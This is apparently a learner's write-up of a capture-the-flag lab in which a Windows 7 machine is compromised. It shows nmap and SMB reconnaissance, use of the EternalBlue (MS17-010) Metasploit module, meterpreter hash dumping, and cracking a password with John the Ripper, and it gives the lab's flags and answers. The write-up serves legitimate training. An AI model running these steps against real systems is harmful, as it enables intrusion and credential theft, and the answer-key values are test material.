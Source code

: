 Task 1 - Recon

1) How many ports are open with a port number under 1000?
* 3
```
└─$ sudo nmap -sS -Pn -p0-1000 -sV 10.10.24.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 13:54 PDT
Nmap scan report for 10.10.24.245
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

port 135 = RPC
port 139 & 445 = SMB ports
```
└─$ smbclient -L 10.10.24.245
Password for [WORKGROUP\gomez22]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.24.245 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

2) What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
The hint states `Revealed by the ShadowBrokers, exploits an issue within SMBv1`, but I didn't get any SMB version info from nmap.
I did a quick google search for the best ways to find out SMB version info and found this site: `https://serverfault.com/questions/378732/how-do-i-find-out-what-version-of-smb-is-enabled-on-a-remote-host`.

I ran an nmap scan using the web page's info as a guide
```
└─$ nmap -p139,445 --script smb-protocols 10.10.24.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 14:10 PDT
Nmap scan report for 10.10.24.245
Host is up (0.16s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.0.2
|_    2.1

Nmap done: 1 IP address (1 host up) scanned in 2.62 seconds
```

So I can see the SMBv1 is "dangerous" but I still need to find the answer to this question. I did some searching and found several
MSXX-XXX vulns but I haven't found the right one yet.

Eventually, I stumbled on to the answer on this site: `https://viperone.gitbook.io/pentest-everything/writeups/hackthebox/windows-machines/legacy`

* MS17-010

enum4linux
```
Looking up status of 10.10.24.245                                                          
        JON-PC          <00> -         B <ACTIVE>  Workstation Service
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        JON-PC          <20> -         B <ACTIVE>  File Server Service
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

        MAC Address = 02-A0-6D-4B-C8-71

```

another nmap scan
```
└─$ sudo nmap --script smb-os-discovery 10.10.24.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 14:17 PDT
Nmap scan report for 10.10.24.245
Host is up (0.17s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-12T16:21:51-05:00

```

No luck with smb with this new info. 

Task 2 - Gain Access


1) Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
* I ran `search ms17-0101` in metasploit which gave me the answer: `exploit/windows/smb/ms17_010_eternalblue`.

2) Show options and set the one required value. What is the name of this value? (All caps for submission)
* RHOSTS (`use` the exploit then `show options`)

3) ran the exploit and got a shell!

Task 3 - Escalate

1) If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
* post/multi/manage/shell_to_meterpreter

2) Select this (use MODULE_PATH). Show options, what option are we required to change?
* Session

NOTE: I followed the instructions for the rest of this task. It's very scaffolded and I don't see the need to write what I did.

Task 4 - Cracking

1) Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
* jon

hashdump output
```
3420  3384  powershell.ex  x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\Wi
             e                                                     ndowsPowerShell\v1.0\p
                                                                   owershell.exe
...
meterpreter > migrate 2948
[*] Migrating from 3420 to 2948...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

2) Copy this password hash to a file and research how to crack it. What is the cracked password?

No luck with Hashcat but I used john the ripper instead!
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~/john-bleeding-jumbo/run]
└─$ ./john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt /home/gomez22/blue/jon_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)  
```

* alqfna22  

Task 5 - Find flags

1) Flag1? This flag can be found at the system root. 
```
meterpreter > cd /
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-12 19:13:36 -0800  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-13 22:08:56 -0700  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-13 20:20:08 -0700  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 15:22:01 -0700  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 15:28:38 -0700  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 15:35:57 -0700  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-12 19:13:22 -0800  Recovery
040777/rwxrwxrwx  4096   dir   2019-03-17 15:35:55 -0700  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-12 19:13:28 -0800  Users
040777/rwxrwxrwx  16384  dir   2019-03-17 15:36:30 -0700  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 12:27:21 -0700  flag1.txt
000000/---------  0      fif   1969-12-31 16:00:00 -0800  hiberfil.sys
000000/---------  0      fif   1969-12-31 16:00:00 -0800  pagefile.sys

meterpreter > cat flag1.txt
flag{access_the_machine}meterpreter > 
```
* flag{access_the_machine}

2) Flag2? This flag can be found at the location where passwords are stored within Windows.
A quick google search told me that passwords are stored at `C:\Windows\System32\Config`
```
meterpreter > cd Windows/System32/Config
meterpreter > ls
Listing: C:\Windows\System32\Config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
...
100666/rw-rw-rw-  34        fil   2019-03-17 12:32:48 -0700  flag2.txt
```
* flag{sam_database_elevated_access}

3) flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
* flag{admin_documents_can_be_valuable}

The flag is found in flag3.txt which is in C:\Users\Jon\Documents.
